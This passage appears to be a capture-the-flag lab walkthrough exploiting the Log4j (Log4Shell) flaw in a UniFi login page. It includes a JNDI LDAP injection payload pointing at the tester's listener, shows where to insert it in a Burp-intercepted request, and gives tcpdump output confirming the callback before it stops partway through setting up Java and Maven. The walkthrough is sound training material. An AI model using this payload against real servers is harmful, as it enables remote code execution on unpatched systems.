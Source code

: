 ![](Pasted%20image%2020220415110325.png)

We can exploit a vulnerability in [this version](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) of the software.

We need to edit the request in order to confirm this vulnerability. We can use Burp for that.

Fire up Burp and set it to intercept all request/responses.

Then we need to provide the login screen with some random credentials and catch the login request.

![](Pasted%20image%2020220415111300.png)

In Burp we need to insert our payload into the `remember` field in the request.

Payload: `"${jndi:ldap://10.10.14.15/whatever}"`

![](Pasted%20image%2020220415111234.png)

In tcpdump we can now see that we receive a connection from the server, this confirms that we can make it execute commands.

```console
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:37:11.888625 IP 10.129.28.168.42178 > 10.10.14.15.ldap: Flags [S], seq 3210065072, win 64240, options [mss 1285,sackOK,TS val 1658415904 ecr 0,nop,wscale 7], length 0
05:37:11.888642 IP 10.10.14.15.ldap > 10.129.28.168.42178: Flags [R.], seq 0, ack 3210065073, win 0, length 0
```

We need three things in order to make this exploit work, first [[Java]] and [[Maven]].

```console 
┌──(kali㉿kali)-[~]
└─$ sudo apt install openjdk-11-jdk -y

(...)

┌──(kali㉿kali)-[~]
└─$ java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk version "11.0.14.1" 2022-02-08
OpenJDK Runtime Environment (build 11.0.14.1+1-post-Debian-1)
OpenJDK 64-Bit Server VM (build 11.0.14.1+1-post-Debian-1, mixed mode, sharing)

┌──(kali㉿kali)-[~]
└─$ sudo apt install maven -y

┌──(kali㉿kali)-[~]
└─$ mvn -v     
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Apache Maven 3.6.3
Maven home: /usr/share/maven
Java version: 11.0.14.1, vendor: Debian, runtime: /usr/lib/jvm/java-11-openjdk-amd64
Default locale: en_US, platform encoding: UTF-8
OS name: "linux", version: "5.16.0-kali7-amd64", arch: "amd64", family: "unix"
```
